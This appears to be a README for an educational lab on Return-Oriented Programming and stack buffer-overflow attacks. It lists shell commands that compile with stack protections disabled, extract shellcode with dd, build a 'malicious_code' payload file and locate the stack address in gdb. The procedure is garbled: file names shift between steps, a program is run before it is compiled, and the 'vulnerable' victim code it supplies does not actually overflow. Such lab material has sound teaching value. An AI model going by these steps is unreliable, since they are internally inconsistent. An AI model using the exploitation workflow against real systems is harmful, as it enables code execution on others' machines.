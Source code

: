 # RoP and Stack Attacks Lab

This repository contains files and instructions for performing Return-Oriented Programming (RoP) and stack attacks. The lab focuses on exploiting vulnerabilities and executing arbitrary code through buffer overflows.

## Files

The following files are required for the lab:

- `dummy_echo`: Dummy executable vulnerable to buffer overflow attacks.
- `inject.c`: C code for crafting the exploit payload.
- `create_mal_code.c`: C code for creating the malicious code.
- `shellcode.c`: C code for generating the shellcode.

## Instructions

1. Download the necessary files from Github:
   - `dummy_echo`
   - `inject.c`
   - `create_mal_code.c`
   - `shellcode.c`

2. Compile the files using the following command:
   ```
   gcc -z execstack -fno-stack-protector shellcode.c -o shellcode
   ```

3. Extract the shellcode by executing the following command:
   ```
   dd if=shell skip=1632 count=36 bs=1 of=shellcode
   ```

   Alternatively, use the following command if the video instructions are followed:
   ```
   dd if=shellcode skip=4397 count=36 bs=1 of=shell_code
   ```

4. Verify the existence of the `shell_code.bin` file by running the command:
   ```
   ls -l shell_code.bin
   ```

   If the file is not found, proceed to the next step.

5. Install the `hexedit` tool by executing the following commands:
   ```
   sudo apt-get install python3-apt
   sudo apt-get update --fix-missing
   sudo apt install hexedit
   ```

6. Open the `shell_code` file with `hexedit`:
   ```
   hexedit shell_code
   ```

   Use the Ctrl+x command to exit and return to the terminal.

7. Run the `create_mal_code` program with the following syntax:
   ```
   ./create_mal_code assumed_shellcode_addr padding shellcode outputfile
   ```

8. Execute the `create_mal_code` program to create the malicious code file:
   ```
   ./create_mal_code 0 20 shell_code malicious_code
   ```

9. Verify the existence of the `malicious_code` file by running the command:
   ```
   ls -l malicious_code
   ```

10. Adjust the file permissions for `malicious_code` if needed:
    ```
    chmod 666 malicious_code
    ```

11. Verify the file permissions of `malicious_code` by running the command:
    ```
    ls -l malicious_code
    ```

12. Open the `malicious_code` file with `hexedit`:
    ```
    hexedit malicious_code
    ```

13. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

14. Execute the `run` command in `gdb` to observe any errors or issues.

15. If errors occur, create a new file named `victim_code.c` with the provided code snippet:

    ```c
    #include <stdio.h>
#include <string.h>

void copy_and_echo(const char* p)
{
    int length = strlen(p);
    char buffer[length + 1]; // Add space for null terminator
    int i, j = 0;

    for (i = 0; i < length; i++)
    {
        if (p[i] >= 32 && p[i] <= 126)
        {
            buffer[j++] = p[i];
        }
    }
    buffer[j] = '\0'; // Null terminate the buffer

    printf("%s\n", buffer);
}

int main(int argc, const char* argv[])
{
    if (argc < 2)
        return -1;
    copy_and_echo(argv[1]);
    return 0;
}

    ```

16. Compile the `victim_code.c` file using the following command:
    ```
    gcc -z execstack -fno-stack-protector victim_code.c -o dummy_echo
    ```

17. Run the `dummy_echo` program:
    ```
    ./dummy_echo
    ```

18. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

19. Execute the `run` command in `gdb` to observe any errors or issues.

20. Take note of the stack address by typing the following command in `gdb`:
    ```
    p $sp
    ```

    The address will be displayed as `$1 = (void *) 0x7fffffffda58`. Make a note of this address.

21. Set a breakpoint in `inject.c` at the desired location using the stack address obtained in the previous step.

22. Compile `inject.c` with the following command:
    ```
    gcc -z execstack -fno-stack-protector inject.c -o inject
    ```

23. Run the `inject` program:
    ```
    ./inject
    ```

Note: Please ensure that you exercise caution when performing these actions and use them for educational purposes only.

